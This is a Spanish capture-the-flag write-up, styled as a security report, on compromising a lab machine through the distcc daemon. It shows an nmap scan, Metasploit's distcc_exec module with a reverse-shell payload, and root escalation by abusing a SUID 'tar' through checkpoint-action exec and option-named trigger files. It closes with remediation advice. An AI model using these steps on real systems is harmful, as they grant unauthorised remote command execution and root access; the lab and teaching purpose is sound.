



---

---
---
autor: zhuit8
tipo: writeup
plataforma: whoami-labs
maquina: distcc
ip: 172.17.0.2
dificultad: fácil
estado: finalizada

---
# Informe de Seguridad:
# distcc

## 1. Resumen Ejecutivo
**Puntuación de Riesgo:** Crítico

**Descripción del impacto:**  
Se ha logrado el **compromiso total del servidor** mediante la explotación de una vulnerabilidad de ejecución remota de comandos (RCE) en el servicio `distccd`. Un atacante externo pudo obtener acceso inicial al sistema y, posteriormente, aprovechar una configuración insegura en el binario `tar` para elevar privilegios hasta el usuario **root**. Esto permite el control absoluto sobre el sistema, el acceso a archivos sensibles (como se demostró con la lectura de la flag en `/root/`) y la posibilidad de utilizar el servidor como pivote para comprometer el resto de la red interna.

## 2. Resumen Técnico (Matriz de Hallazgos)
| ID  | Vulnerabilidad                                   | Severidad | Estado    |
| --- | ------------------------------------------------ | --------- | --------- |
| 01  | RCE en DistCC (CVE-2004-2687)                    | Crítica   | Explotado |
| 02  | Elevación de Privilegios vía SUID Tar (GTFOBins) | Alta      | Explotado |
|     |                                                  |           |           |

---
## 3. Fase de Reconocimiento
### Enumeración de Puertos (Nmap)

```bash
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvvv -n -Pn 172.17.0.2
```

- **Puertos abiertos:** 3632.
- **Evidencias:** > [!info] Resultado Nmap > 
```bash
PORT     STATE SERVICE REASON         VERSION
3632/tcp open  distccd syn-ack ttl 64 distccd v1 ((Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0)
MAC Address: 7A:A7:08:60:ED:17 (Unknown)
```

Con la información encontrada acerca de [[../../../02_Methodology/Distcc|Distcc]] se decide hacer uso de la harramienta mstasploit con el comando:

```bash
msfconsole
```
### Metasploit

```bash
search distcc

 0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution
```

```
use 0

options
```

```
set rhost 172.17.0.2

set lport 4445

show payload

set payload 6

run

exploit -j

```

_(La opción `-j` sirve para que se ejecute como un "job" en segundo plano, permitiéndote seguir usando la consola para lanzar el exploit contra el puerto 3632)._


---
## 4. Análisis y Explotación
### Vector de entrada: [[distcc]]
Explicación de como encontraste el fallo.
- **Paylod utilizado:** [[payload 6 metasploit]]
- **Vulnerabilidad CVE-2004-2687**: Este fallo histórico permite a un atacante ejecutar cualquier comando en el servidor simplemente enviando una petición de compilación malformada. Es un objetivo común en laboratorios de aprendizaje y máquinas de práctica como las de [HackTricks](https://hacktricks.wiki/es/network-services-pentesting/3632-pentesting-distcc.html).
- **Uso en Pentesting**: Existen módulos específicos en herramientas como **Metasploit** (`exploit/unix/misc/distcc_exec`) que automatizan la explotación de este puerto para obtener una shell reversa en el sistema objetivo
### Post-Explotación
- **usuario obtenido:** `distccd` 
- **Escalada de privilegios:** - Se detectó un binario SUID mal configurado.
```bash
find / -user root -perm /4000 2>/dev/null
```



```bash
tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Vamos a probar el **"método de los archivos"**, que es el truco clásico de GTFOBins para `tar`. Este método engaña a `tar` al procesar archivos con nombres que parecen comandos.

Ejecuta estos tres comandos uno por uno en `/tmp`:

1. **Crea los archivos de activación:**

```bash
cd /tmp
touch ./-checkpoint=1
touch ./-checkpoint-action=exec=sh

`tar -cvf flag.tar /root/flag.txt && tar -xf flag.tar -O`
```

### Captura de Flag
`flag:{}`

```bash
distccd@distcc:/tmp$ tar -cvf flag.tar /root/flag.txt && tar -xf flag.tar -O
tar -cvf flag.tar /root/flag.txt && tar -xf flag.tar -O
tar: Removing leading `/' from member names
/root/flag.txt
DISTCC{d1str1but3d_c0mp1l4t10n_pwn3d}
```

---

## 5. Recomendaciones y Conclusiones
### Remediación Técnica
1. **Restringir el servicio DistCC**: El daemon `distccd` no debe estar expuesto a redes no confiables. Se debe configurar el parámetro `--allow` o `--listen` para limitar las conexiones solo a IPs específicas de confianza.
2. **Eliminar permisos SUID innecesarios**: El binario `/bin/tar` no requiere el bit SUID para funcionar correctamente en entornos estándar. Se recomienda eliminarlo ejecutando `chmod u-s /bin/tar` para evitar que usuarios locales escalen privilegios
3. **Actualización y Parcheo**: Aunque el servicio sea necesario, la versión detectada es vulnerable a exploits públicos conocidos. Se recomienda actualizar a versiones recientes que incluyan mejoras de seguridad y controles de acceso más robustos.
4. **Principio de Menor Privilegio**: Revisar todos los binarios con permisos SUID (`find / -perm -4000`) y deshabilitar aquellos que no sean estrictamente necesarios para la operación del sistema.

### Conclusión Final
El servidor presenta una postura de seguridad **críticamente vulnerable**. La combinación de un servicio antiguo y mal configurado expuesto a la red (`distccd`), junto con una gestión deficiente de permisos internos (SUID en `tar`), permitió que un atacante pasara de no tener acceso a ser administrador total del sistema en cuestión de minutos. Es imperativo cerrar el acceso al puerto 3632 y auditar los permisos de ejecución en todo el sistema de archivos para mitigar riesgos similares.